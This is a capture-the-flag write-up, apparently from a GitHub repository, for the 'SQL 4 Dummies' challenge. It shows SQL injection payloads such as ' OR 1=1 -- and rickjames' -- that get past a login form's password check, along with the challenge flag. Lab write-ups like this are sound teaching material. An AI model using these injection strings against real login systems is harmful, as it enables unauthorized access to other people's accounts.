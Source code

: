# SQL 4 Dummies

## Description

> Break into ole Professor James' school account. I think his username is rickjames.
>
> https://bluehens-sql-for-dummies-service.chals.io/


## Write-Up

When entering the web app, we get a simple login form. We can try a standard **SQLi** like follow:

```
username=' OR 1=1 --
password=anyString
```

We get:

```
close, but you are not rickjames
```

So we conclude that we need to add a verification statement so we extract only `rickjames` row. When trying to add a `WHERE` statement we get:

```
username=' OR 1=1 WHERE username=rickjames--
password=anyString
```

We get:

```
Too many characters
```

After modifying a little bit the query as follow:

```
username=rickjames' AND 1=1 --
password=anyString
```

Where we specify the username but also omit the password verification. After execution, we get the flag:

```
UDCTF{wh4ts_my_n4m3_4g4in?}
```

**Note:** an even simpler query:

```
username=rickjames' --
password=anyString
```


## Flag

UDCTF{wh4ts_my_n4m3_4g4in?}